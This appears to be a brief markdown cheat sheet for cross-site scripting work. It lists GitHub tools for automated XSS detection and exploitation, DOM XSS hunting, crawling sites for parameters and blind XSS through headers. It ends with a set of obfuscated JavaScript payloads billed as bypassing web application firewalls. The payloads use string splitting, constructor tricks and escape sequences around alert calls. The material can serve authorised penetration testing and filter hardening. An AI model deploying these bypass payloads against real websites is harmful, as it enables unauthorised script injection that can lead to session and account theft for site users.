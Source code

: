 > 1. XSS automatic detection and exploit
```
https://github.com/garlic0x1/go-reflect
https://github.com/Encryptor-Sec/XSSearch
https://github.com/theinfosecguy/QuickXSS
```

> 2. DOMXSS Find and Exploit
```
https://github.com/edoardottt/lit-bb-hack-tools/tree/main/doomxss
```
> 3.Crawl entire website for xss parameter
```
https://github.com/thenurhabib/collector
https://github.com/Qianlitp/crawlergo
```
> 4. Testing blind xss via headers using xsshunter
```
https://github.com/muhamadkarkuki/xssHeaders
```
> Some XSS Payloads which bypasses the WAF
```
[%27al\x65rt%27](document.domain);//
window[‘alert’](0)
parent[‘alert’](1)
self[‘alert’](2)
top[‘alert’](3)
this[‘alert’](4)
frames[‘alert’](5)
content[‘alert’](6)
constructor.constructor(“aler”+”t(3)”)();
[].filter.constructor(‘ale’+’rt(4)’)();
top[“al”+”ert”](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top[‘al\x65rt’](9);
foo%27-top[%27al\x65rt%27](document.domain);//
<fieldset//%00//onsite OnMoUsEoVeR=\u0061\u006C\u0065\u0072\u0074`/AAAA/`>
```
> Swagger UI XSS Testing Automation
```
https://github.com/Nightmre/swAPI-XSS
```
